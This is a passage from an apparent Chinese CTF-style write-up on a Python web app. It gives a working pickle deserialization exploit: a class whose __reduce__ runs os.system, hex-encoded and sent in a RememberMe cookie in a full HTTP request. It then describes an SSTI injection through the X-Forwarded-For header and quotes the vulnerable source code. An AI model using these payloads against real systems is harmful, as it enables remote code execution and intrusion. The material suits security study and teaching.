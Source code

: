 我们去构造恶意的序列化数据，由于项目在反序列化之前进行了一次 hex 解码，那么我们要将序列化数据编码之后再传过去。

```python
import os  
import pickle  
  
class rce():  
    text = "test"  
  
    def __reduce__(self):  
        cmd = 'whoami'  
        return (os.system,(cmd,))  
  
a = rce()  
serCon = pickle.dumps(a)  
enCon = bytes.hex(serCon)  
print(enCon)  
```

然后访问路由 `/system/sys`，在 Cookie 中传入我们恶意序列化数据即可反弹 Shell RCE。

```plaintext
GET /system/sys HTTP/1.1  
Host: 10.103.24.2:1234  
Upgrade-Insecure-Requests: 1  
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/139.0.0.0 Safari/537.36  
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,_/_;q=0.8,application/signed-exchange;v=b3;q=0.7  
Accept-Encoding: gzip, deflate  
Accept-Language: zh-CN,zh;q=0.9  
Cookie: RememberMe=8004951e000000000000008c026e74948c0673797374656d9493948c0677686f616d6994859452942e
```

#### SSTI 漏洞

在后面查看别人的攻击流量时，发现这个项目还存在 SSTI 漏洞，注入点如下，我们发现项目框架中的 `render_text` 是存在 SSTI 漏洞的，由于 `self.tpl = self.tpl.replace("{{real_ip}}", real_ip)`，并且 `real_ip` 还是通过 `HTTP_X_FORWARDED_FOR` 去获取的，这很明显是可控的，那么我们只需要访问这个路由 `/api/getip.jsonp`，再对 `X-Forwarded-For` 传入我们的 payload 即可 RCE。

```python
# encoding=utf-8
# getip 
# Created on 2017/09/26
# @modified 2019/07/12 00:52:34
import web
import xutils
import xtemplate

def get_real_ip():
    real_ip_list = web.ctx.env.get("HTTP_X_FORWARDED_FOR")
    if real_ip_list != None and len(real_ip_list) > 0:
        return real_ip_list.split(",")[0]
    return web.ctx.env.get("REMOTE_ADDR")

class handler:

    def GET(self):
        # X-Forwarded-For是RFC 7239（Forwarded HTTP Extension）定义的扩展首部，大部分代理支持
        # 格式如下：
        # X-Forwarded-For: client, proxy1, proxy2
        # 而X-Real-IP目前不属于任何标准
        # See https://imququ.com/post/x-forwarded-for-header-in-http.html
        yield "X-Forwarded-For: "
        yield web.ctx.env.get("HTTP_X_FORWARDED_FOR")
        yield "\nRemote Addr: "
```